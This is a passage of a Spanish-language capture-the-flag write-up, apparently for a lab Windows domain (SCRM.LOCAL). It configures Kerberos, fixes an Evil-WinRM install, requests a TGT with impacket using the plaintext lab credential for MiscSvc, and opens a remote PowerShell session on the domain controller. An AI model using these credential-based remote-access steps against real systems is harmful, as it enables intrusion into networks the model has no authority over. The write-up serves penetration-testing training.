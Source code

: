 Una vez que lo tengas, vamos a modificarlo para agregarle el dominio del **servicio Kerberos** de la máquina víctima:
```bash
[libdefaults]
        default_realm = SCRM.LOCAL

# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        SCRM.LOCAL = {
                kdc = dc1.scrm.local
        }

[domain_realm]
        .scrm.local = SCRM.LOCAL
        scrm.local = SCRM.LOCAL
```

Y también debes de configurar el **Evil-WinRM** para agregarle la característica **remote path completion**, para este paso debes verificar tu versión de **Ruby** y seguir los pasos que indica el **GitHub** de esta herramienta (OJO, debes seguir los pasos con base en tu versión de **Ruby**):
* <a href="https://github.com/Hackplayers/evil-winrm#Remote-path-completion" target="_blank">Repositorio de Hackplayers: evil-winrm - Remote path completion</a>

Es posible que te salga un error sobre un archivo llamado **ffi**. Esta es una librería de **Ruby** que a lo mejor tienes, pero que por X o Y motivo no está funcionando correctamente. (Si no te sale este error, continúa con lo demás)

Para solucionarlo, aplica los siguientes comandos:
```bash
gem uninstall ffi
gem install ffi --platform=ruby
apt-get install build-essential libffi-dev
```

Una vez que tengas todo configurado, tan solo hay que crear un **TGT** usando al **usuario MiscSvc**, exportar el **archivo ccache** a la variable de entorno y autenticarnos con **Evil-WinRM**:
```bash
impacket-getTGT scrm.local/MiscSvc:ScrambledEggs9900
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[*] Saving ticket in MiscSvc.ccache
                                                                                                                                                                                                                 
export KRB5CCNAME=MiscSvc.ccache

evil-winrm -r SCRM.LOCAL -i dc1.scrm.local
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\miscsvc\Documents> whoami
scrm\miscsvc
```

<br>

